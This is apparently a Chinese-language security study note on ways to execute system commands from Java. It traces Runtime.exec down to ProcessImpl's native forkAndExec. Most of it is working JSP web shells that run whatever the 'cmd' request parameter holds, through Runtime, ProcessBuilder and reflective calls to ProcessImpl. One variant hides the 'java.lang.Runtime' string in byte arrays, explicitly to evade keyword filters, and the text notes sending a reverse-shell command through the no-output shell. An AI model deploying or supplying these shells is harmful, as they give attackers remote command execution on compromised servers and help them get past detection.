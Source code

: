 # 本地命令执行

## 前言

Java 原生提供了对本地系统命令执行的支持，浅浅记录几种不同的命令执行方式。

## Runtime命令执行

最为常见的命令执行方式就是通过`java.lang.Runtime`类的`exec`方法，无回显的代码示例如下：
```java
<%=Runtime.getRuntime().exec(request.getParameter("cmd")) %>
```

无回显传反弹 shell 命令即可
![image-20220723194743188](本地命令执行.images/image-20220723194743188-8576868.png)

修改命令回显：
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream inputStream = Runtime.getRuntime().exec(request.getParameter("cmd")).getInputStream();

    ByteArrayOutputStream bao = new ByteArrayOutputStream();
    byte[] bytes = new byte[1024];
    int a = -1;
    while((a = inputStream.read(bytes)) !=-1){
        bao.write(bytes, 0, a);
    }
    out.write(new String(bao.toByteArray()));

%>
```

![image-20220723212513757](本地命令执行.images/image-20220723212513757.png)

跟踪分析`Runtime.getRuntime().exec()`源码，可以得到调用链如下（JDK8版本）：
![image-20220807211716655](本地命令执行.images/image-20220807211716655.png)

```
java.lang.UNIXProcess.<init>                                        [UNIXProcess.java]
java.lang.ProcessImpl.start                                         [ProcessImpl.java]
java.lang.ProcessBuilder.start                                      [ProcessBuilder.java]
java.lang.Runtime.exec(String[] cmdarray, String[] envp, File dir)  [Runtime.java]
java.lang.Runtime.exec(String command, String[] envp, File dir)     [Runtime.java]
java.lang.Runtime.exec(String command)                              [Runtime.java]
org.apache.jsp.runtime_002dexec2_jsp._jspService                    [runtime_002dexec2_jsp.java]
```

因此，`exec()`方法是从`UNIXProcess`构造方法出发，经过一系列方法调用最终实现的命令执行，所以`exec()`方法并非命令执行的终点

## 反射Runtime命令执行

如果对`Runtime`关键字有过滤，可以通过反射进行绕过从而执行命令
```jsp
<%@ page import="java.lang.reflect.Method" %>
<%@ page import="java.util.Scanner" %>
<%@ page import="java.io.InputStream" %><%
    String str = request.getParameter("cmd");
    // 定义"java.lang.Runtime"字符串变量
    String jlr = new String(new byte[]{106, 97, 118, 97, 46, 108, 97, 110, 103, 46, 82, 117, 110, 116, 105, 109, 101});
    // 反射Runtime类获取Class对象
    Class c = Class.forName(jlr);
    // 反射获取Runtime类的getRuntime方法
    Method m1 = c.getMethod(new String(new byte[]{103, 101, 116, 82, 117, 110, 116, 105, 109, 101}));
    // 反射获取Runtime类的exec方法
    Method m2 = c.getMethod(new String(new byte[]{101, 120, 101, 99}),String.class);
    // 反射调用Runtim.getRuntime().exec()方法
    Object obj = m2.invoke(m1.invoke(null,new Object[]{}),new Object[]{str});

    // 反射获取Process类的getInputStream方法
    Method m3 = obj.getClass().getMethod(new String(new  byte[]{103, 101, 116, 73, 110, 112, 117, 116, 83, 116, 114, 101, 97, 109}));
    m3.setAccessible(true);

    // 获取命令执行结果的输入流对象：p.getInputStream()并使用Scanner按行切割成字符串
    // \A为正则匹配，代表从字符串开头进行匹配
    Scanner s = new Scanner((InputStream) m3.invoke(obj, new Object[]{})).useDelimiter("\\A");
    String result = s.hasNext() ? s.next() : "";
    out.println(result);

%>
```

##  ProcessBuilder命令执行

前面我们已经知道`exec()`方法的调用链包含`ProcessBuilder`的`strat()`方法，因此我们也可以通过`processBuilder`来执行系统命令
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%
    InputStream in = new ProcessBuilder(request.getParameterValues("cmd")).start().getInputStream();
    ByteArrayOutputStream baos = new ByteArrayOutputStream();
    byte[] b = new byte[1024];
    int a = -1;
    while((a=in.read(b))!= -1){
        baos.write(b, 0, a);
    }
    out.write(new String(baos.toByteArray()));
%>
```

![image-20220727184018164](本地命令执行.images/image-20220727184018164.png)

## UNIXProcess/ProcessImpl

在 JDK8 以后，将`UNIXProcess`合并到了`ProcessImpl`当中，我们可以再跟一下`exec()`的链对比前面的图看看，已经没有了`UNIXProcess`
![image-20220811173015325](本地命令执行.images/image-20220811173015325.png)

因此`UNIXPeocess`和`ProcessImpl`此后可以看做一个东西，其最终调用了`native`执行系统命令的类，该类提供了一个名为`forkAndExec()`的`native`方法。`forkAndExec()`方法主要通过`fork&exec`来执行本地系统命令。

`ProcessImpl`类的`forkAndExec()`方法如下：

```java
private native int forkAndExec(int mode, byte[] helperpath,
                                   byte[] prog,
                                   byte[] argBlock, int argc,
                                   byte[] envBlock, int envc,
                                   byte[] dir,
                                   int[] fds,
                                   boolean redirectErrorStream)
        throws IOException;
```

## UNIXProcess/ProcessImpl反射命令执行

`ProcessImpl`类中没有共有的构造方法，所以不能直接实例化。我们可以通过反射去调用其中的静态方法`start()`
![image-20220812230031302](本地命令执行.images/image-20220812230031302.png)
java 代码实现

```java
import java.io.ByteArrayOutputStream;
import java.io.InputStream;
import java.lang.reflect.Method;
import java.util.Map;

public class Main extends ClassLoader {
    public static void main(String[] args) throws Exception{
        Class cla = Class.forName("java.lang.ProcessImpl");
        Method method = cla.getDeclaredMethod("start", String[].class, Map.class, String.class, ProcessBuilder.Redirect[].class, boolean.class);
        method.setAccessible(true);
        InputStream in = ((Process)method.invoke(null, new String[]{"ls"},null,null,null,false)).getInputStream();
        ByteArrayOutputStream out = new ByteArrayOutputStream();
        byte[] b = new byte[1024];
        int a = -1;
        while ((a = in.read(b))!=-1){
            out.write(b,0,a);
        }
        System.out.println(out.toString());
    }
}
```

jsp 代码实现按照跟到的`ProcessImpl`类中的`start`方法写就可以了
```jsp
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.ByteArrayOutputStream" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="java.lang.reflect.Method" %>
<%!
    byte[] toCString(String s) {
        if (s == null)
            return null;
        byte[] bytes = s.getBytes();
        byte[] result = new byte[bytes.length + 1];
        System.arraycopy(bytes, 0,
                result, 0,
                bytes.length);
        result[result.length-1] = (byte)0;
        return result;
    }
    InputStream start(String[] cmdarray) throws Exception{
        assert cmdarray != null && cmdarray.length > 0;

        // Convert arguments to a contiguous block; it's easier to do
        // memory management in Java than in C.
        byte[][] args = new byte[cmdarray.length-1][];
        int size = args.length; // For added NUL bytes
        for (int i = 0; i < args.length; i++) {
            args[i] = cmdarray[i+1].getBytes();
            size += args[i].length;
        }
        byte[] argBlock = new byte[size];
        int i = 0;
        for (byte[] arg : args) {
            System.arraycopy(arg, 0, argBlock, i, arg.length);
            i += arg.length + 1;
            // No need to write NUL bytes explicitly
        }

        int[] envc = new int[1];
        int[] std_fds = new int[]{-1, -1, -1};

        Class cla = Class.forName("java.lang.ProcessImpl");
        Constructor constructor = cla.getDeclaredConstructors()[0];
        constructor.setAccessible(true);
        Object object = constructor.newInstance(toCString(cmdarray[0]), argBlock, args.length, null, envc[0], null, std_fds, false, false);
        Method method = cla.getDeclaredMethod("getInputStream");
        method.setAccessible(true);
        return (InputStream) method.invoke(object);
    }
%>
<%
    String[] cmd = request.getParameterValues("cmd");
    out.println("<pre>"+ new String(start(cmd).readAllBytes()) + "</pre>");
%>
```

![image-20220814005057834](本地命令执行.images/image-20220814005057834.png)